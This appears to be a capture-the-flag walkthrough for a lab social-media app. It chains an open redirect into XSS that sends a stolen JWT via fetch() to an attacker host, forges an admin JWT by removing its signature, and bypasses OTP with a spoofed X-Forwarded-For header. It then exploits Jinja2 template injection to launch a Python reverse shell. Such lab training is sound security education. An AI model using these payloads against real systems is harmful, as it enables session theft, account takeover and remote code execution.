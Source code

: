 # Solutions

## Stage 1: Access with any user

<details>
<summary>Display</summary>

At this stage, the objective is to access the application with any user.

To begin with, we access http://whp-socially/ and we find the following screen:

![](img/MainPage.png)

We see that in the left side menu we have the "Login" option, but it is not important since we do not have any account and we cannot register.

If we review the posts on the page, we see that there is a post by a user named "admin" with a link that takes us to the Google page.

![](img/InterestingHyperlink.png)

This link is relevant because it does not redirect directly to Google, but uses a parameter called "next" to redirect to the page of our choice.

This is reminiscent of a vulnerability called "Open Redirect", which is that an attacker can redirect a user to a page that is not what the user expects, for example, to a phishing page.

To validate if this is a vulnerability, we can manipulate the "next" parameter, leaving the link as follows:

http://whp-socially/?next=http://example.com

![](img/example.com.png)

And when accessing this link, we are redirected to the page example.com, which confirms the vulnerability.

Open Redirect is a very common vulnerability, usually not very dangerous and in many cases it is reported as low severity or even informative. However, there are cases where it can be exploited for more complex attacks, such as Cross-Site Scripting (XSS). An XSS allows an attacker to execute JavaScript code in the user's browser. Let's check if this is possible.

For this, we need to identify how the application performs the redirection. We can use Burp Suite to intercept the request and see what is happening.

![](img/RequestOpenRedirect.png)

The application redirects using JavaScript code, more specifically, with the "href" property of the "window.location" object.

When redirecting via JavaScript, and not via an HTTP "Location" header, the Open Redirect can lead to an XSS. This is very useful for Bug Bounty, because XSS are reported with higher severity than Open Redirect, providing a higher reward.

Let's try to exploit this. First, let's test if "javascript:" works for us, to see if we can execute JavaScript code.

![](img/javascriptBlocked.png)

Apparently, "javascript:" is blocked. However, by using the %09 character (URL-encoded tab character), we can bypass the filters.

To do this, we add this character between the first and the last letter of the word "javascript", as follows:

![](img/BypassFilter.png)

This character generates a blank space, which is ignored by the browser. This simple, but not so well known technique helped me to bypass Imperva's commercial WAF in a Bug Bounty scenario.

Now, we can execute JavaScript code. Let's try calling the "alert()" function to see if it works.

![](img/alertBlocked.png)

Apparently, the "alert()" function is also blocked. However, we can use the "print()" function, which generates a print window.

![](img/printAllowed.png)

Perfect, it works! Let's access it from the browser to confirm that the JavaScript code is executed. The link should look like this:

http://whp-socially/?next=j%09avascript:print()

![](img/printExecuted.png)

The JavaScript code executes correctly. However, it is not very useful, as it only generates a print window. Let's try something more interesting, such as stealing the user's session.

But first, we need to identify how the session / authentication is stored by the application. Usually, it is stored in a cookie, but this is not always the case. To determine this, we check the JavaScript files that are running on the main page. In this case, we have a file called "main.js".

![](img/localStoragetoken.png)

In this file, we can see that the function "localStorage.getItem('token')" is called, which is responsible for obtaining the user's token from the browser's local storage.

In case there is any doubt, the main difference between cookies and local storage is that cookies are stored in the browser and the server, while local storage is only stored in the browser.

Let's try to steal the user's token. We need an attacker server to receive the token from the victim. For this, we can use a Python HTTP server, with the following command:

    python3 -m http.server 80

![](img/pythonhttpserver.png)

Now, let's see what is the IP address of our attacker machine. For this, we can use the "ifconfig" command. The IP address we are interested in is the one of the Docker bridge interface, with the name starting with "br-".

![](img/ifconfig.png)

With this information, we can create a payload that uses the "fetch()" function to send the token to the attacker's server via a GET request. The link would look like this:

```
http://whp-socially/?next=j%09avascript:fetch(%27http://<ATTACKER_IP>/%27%2blocalStorage.getItem(%27token%27))
```

**Important:** You have to replace \<ATTACKER_IP\> with the IP address of the attacker's machine. In addition, the "+" character in URL must be encoded, so that it is not interpreted as a blank space.

If we test the link, we will see that the request does not reach the attacker's server. Let's check the browser console to see what is going on.

![](img/blockedFetch.png)

Apparently, there is a syntax error related to the "&" character. To debug this, we can send the request to the Burp Suite Repeater and see where the problem lies.

![](img/blockedFetchRepeater.png)

The problem is that the character "%27" (URL-encoded single quote) is being encoded using HTML Entities. This is because the application is escaping the special characters.

To fix this, we can see if the rest of the quotes are being escaped as well. With JavaScript, we can represent strings using single quotes, double quotes or backticks.

![](img/checkingQuoteChars.png)

In this case, the backticks are not being escaped. Therefore, we can use them to solve the problem. The link would look like this:

```
http://whp-socially/?next=j%09avascript:fetch(`http://<ATTACKER_IP>/`%2blocalStorage.getItem(`token`))
```

If we test the link, we see that the request reaches the attacker's server.

![](img/requestReceived.png)

We get the value "null", this is because we are not authenticated, but this serves to verify that the request arrives correctly. Now, we are going to send the request to the victim, using the exploit server available at http://whp-exploitserver/.

![](img/exploitServer.png)

We click the "Deliver URL to victim" button to send the link to the victim. The exploit server simulates the victim's navigation and we see that a JSON Web Token (JWT) successfully reaches the attacker's server.

![](img/tokenReceived.png)

Now, we can use the JWT to authenticate to the http://whp-socially/ application. We open the browser console and execute the following JavaScript code:

    localStorage.setItem('token', 'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJzb2NpYWxseS1hcHAiLCJpZCI6NX0.<SIGNATURE>')

**Important:** For the console to let us paste the above code, we must type "allow pasting" just before executing the code. Also, replace \<SIGNATURE\> with the signature of the JWT we have obtained.

![](img/localStoragesetItem.png)

If we reload the page, we check that we have successfully authenticated with the "ares" account.

![](img/loggedinasares.png)

</details>

## Stage 2: Access as admin

<details>
<summary>Display</summary>

At this stage, the goal is to log in as an administrator.

After logging in, we can see that we have a functionality to publish posts, but it is disabled.

![](img/disabledposting.png)

Therefore, let's check the JWT for vulnerabilities.

JWT consists of three parts: header, payload and signature. The header contains information about the encryption algorithm used. The payload contains the information we want to store in the JWT. The signature is used to verify that the JWT has not been modified, and is calculated using the header, the payload and a secret key.

Thanks to the page [JWT.io](https://jwt.io/), we can see the content of the JWT more easily. We enter the JWT obtained earlier and get the following information:

![](img/jwtdecoded.png)

We have an "id" field with the value "5", which most likely corresponds to the user's identifier. To modify it, we need to know the secret key used to sign the JWT, unless we can find a vulnerability.

If we check the Burp Suite HTTP History when adding a JWT in the browser's Local Storage and refresh the page, a request is made against the "/session" endpoint, which given a valid JWT returns a session cookie.

![](img/jwtreturnssession.png)

Let's try removing the signature from the JWT and see what happens. If the signature is removed and the application does not check it, the JWT is considered valid. If this happens, the application should return a session cookie.

![](img/signatureremoved.png)

This vulnerability allows us to manipulate the JWT payload, so we can modify the value of the "id" key to be "1" and log in as the first user of the application, which is usually the administrator.

![](img/modifiedidjwt.png)

We log out and specify the modified JWT from the browser console as follows:

    localStorage.setItem('token', 'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJzb2NpYWxseS1hcHAiLCJpZCI6MX0.')

![](img/setadminjwt.png)

If we reload the page, we check that we are logged in as administrator.

![](img/loginasadmin.png)

</details>

## Stage 3: Read the /flag file

<details>
<summary>Display</summary>

At this stage, the goal is to read the /flag file, which contains the final flag.

The administration panel looks like this:

![](img/adminpanel.png)

We have two options: update the SMTP server data and send a test email. The problem is that if we try to use either of the two options, a second authentication factor is triggered, which asks for an OTP code.

Example when trying to update the SMTP server data:

![](img/verifyotp.png)

There are cases where applications rely on the "X-Forwarded-For" header. This header was created so that web servers can know the real IP of users accessing the application through a proxy. In this case, the application trusts this header and does not check the user's real IP.

If we add the "X-Forwarded-For" header so that its value is the loopback IPv4 address (127.0.0.1), the application believes that the user is accessing from the same machine as the server, so the second authentication factor is not activated.

The request made when attempting to update the SMTP server data is as follows:

![](img/updatesmtporiginalrequest.png)

By adding the header "X-Forwarded-For: 127.0.0.1", the server does not check the second authentication factor and authorizes the request.

![](img/updatesmtpmodifiedrequest.png)

We can add a "Match and Replace" rule in Burp Suite so that the "X-Forwarded-For" header is automatically added to all requests, with the following configuration:

* **Type:** Request header
* **Replace:** X-Forwarded-For: 127.0.0.1

![](img/addmatchreplacerule.png)

We are going to modify the IP address of the SMTP server to be that of the attacker.

![](img/smtpipmodified.png)

With Python we can create an SMTP server that listens on port 25 and shows us the emails it receives. To do this, we execute the following command:

    sudo python3 -m smtpd -n -c DebuggingServer 0.0.0.0:25

![](img/pythonsmtpserver.png)

Now, if we send a test email to any address, we receive it on the SMTP server.

![](img/receiveemail.png)

The request made when sending a test email is as follows:

![](img/sendemailrequest.png)

The "message" key is striking because its value contains the variable {{session['username']}}, which is replaced by the name of the user sending the email. This is reminiscent of a Server-Side Template Injection (SSTI) vulnerability, which allows code to be executed on the server, in this case, Python code.

To confirm that this is a SSTI vulnerability, the first thing to do is to identify the template engine used by the application, since each has its own syntax. 

The most commonly used template engine in Flask is Jinja2. To check if the application is using this template engine, we can try sending a test email with the following content:

    {{config}}

![](img/config.png)

And check if the response contains information about the application configuration.

![](img/configreceived.png)

It works, so we can try to extract the content of the /flag file, using the following payload extracted from [Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#exploit-the-ssti-by-calling-ospopenread):

    {{cycler.__init__.__globals__.os.popen('cat /flag').read()}}

![](img/messagetoolong1.png)

Unfortunately, the value of the "message" key is too long, so the payload is not executed.

We need a shorter payload, but first we need to know how much space we have available for the payload. We will keep adding "X" characters in "message" until the request returns an error.

By sending 45 "X" characters, the request works correctly.

![](img/45x.png)

When sending 46 "X" characters, the request returns an error.

![](img/46x.png)

We can conclude that we have 45 characters available for the payload.

The article [Exploiting Jinja SSTI with limited payload size](https://niebardzo.github.io/2020-11-23-exploiting-jinja-ssti/) provides a solution to bypass the payload size restriction.

The proposed technique consists of updating "config", which is a dictionary containing the application configuration. We add an element to the dictionary called "a" with the command that we pass to it by the GET parameter "a".

In this way, we do not need to include the command in the "message" field, but pass it through the GET parameter, thus bypassing the size restriction.

In this case, the command is a Python 3 reverse shell.

    python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ATTACKER_IP>",<ATTACKER_PORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'

**Important:** Modify "ATTACKER_IP" and "ATTACKER_PORT" by the IP address and port of the attacker respectively. Select the text and press "Ctrl+U" in Burp Suite Repeater to encode it in URL format.

And the payload we are going to use is the following:

    {{config.update(a=request.args.get('a'))}}

![](img/payload.png)

We listen on the port specified in the payload.

    nc -lvnp <ATTACKER_PORT>

![](img/nc.png)

We launch os.popen(config.a) to execute the reverse shell command, with the following payload:

    {{lipsum.__globals__.os.popen(config.a)}}

Explanation of the payload:
* **lipsum:** function that generates random text, from here we can access the global variables.
* **\_\_globals\_\_:** dictionary containing the global variables of the functions, including "os".
* **os:** module containing functions to interact with the operating system.
* **popen:** function that executes a command in the operating system.

![](img/revshell.png)

And we get a reverse shell.

![](img/shell.png)

We read the content of the /flag file.

![](img/flagcontent.png)

</details>
